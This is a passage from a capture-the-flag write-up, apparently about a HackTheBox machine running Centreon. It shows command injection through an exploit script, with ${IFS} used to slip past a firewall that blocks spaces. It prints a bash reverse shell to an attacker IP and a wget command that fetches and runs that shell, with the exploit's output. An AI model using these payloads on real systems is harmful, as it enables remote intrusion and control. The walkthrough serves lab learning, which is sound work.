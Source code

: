 So I started checking different commands. `nc` gave a 403, but `curl` and `wget` were good. Armed with those, I wanted to see if I could create a connection back. I ran `python3 -m http.server 80` and then issued `wget 10.10.14.30`. It returned 403.

My first thought was that it was blocking on IP addresses. So I tried `wget wget`, but it still failed. I tried `wget`  (there’s a space at the end), and it returned 403! It seems that space is blocked at the firewall. This is a pretty unrealistic challenge, and I suspect completely breaks the Centreon application. But I’ll continue.

I know a way to say space without using that character is the `${IFS}` variable. I’ll give it a try, making sure to put my payload in single quotes so that my bash doesn’t evaluate the variable:

```

root@kali# ./centreon-0xdf.py http://10.10.10.157/centreon/ admin password1 'wget${IFS}10.10.14.30'
[+] Retrieving CSRF token to submit the login form
[+] Login token is : c3e06f0952f4b5ed743cf4be0a4434a0
[+] Logged In Sucssfully
[+] Retrieving Poller token
[+] Poller token is : ed900e21690e570728e12e1cba70c926
[*] Payload inject status code: 200
[+] Injecting Done, triggering the payload
[+] Check you netcat listener !

```

And I get a request on my webserver:

```
10.10.10.157 - - [15/Sep/2019 04:49:43] "GET / HTTP/1.1" 200 -

```

I wrote a quick reverse shell script:

```

root@kali# cat shell
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.30/443 0>&1

```

I tried to get `wget` to output to stdout and pipe that into `bash`, but i couldn’t get that to work. But I did get this to work:

```

wget${IFS}10.10.14.30/shell${IFS}-O${IFS}/tmp/0xdf;${IFS}bash${IFS}-i${IFS}/tmp/0xdf

```

This uses `wget` to get the shell file and save it to `/tmp`, and then use `bash` to run it.

```

root@kali# ./centreon-0xdf.py http://10.10.10.157/centreon/ admin password1 'wget${IFS}10.10.14.30/shell${IFS}-O${IFS}/tmp/0xdf;${IFS}bash${IFS}-i${IFS}/tmp/0xdf'
[+] Retrieving CSRF token to submit the login form
[+] Login token is : 1892910fb24da4dd4d54fabd156f46fe
[+] Logged In Sucssfully
[+] Retrieving Poller token
[+] Poller token is : 71d739093f67a73ed21c823778f3f052
[*] Payload inject status code: 200
[+] Injecting Done, triggering the payload
[+] Check you netcat listener !

```

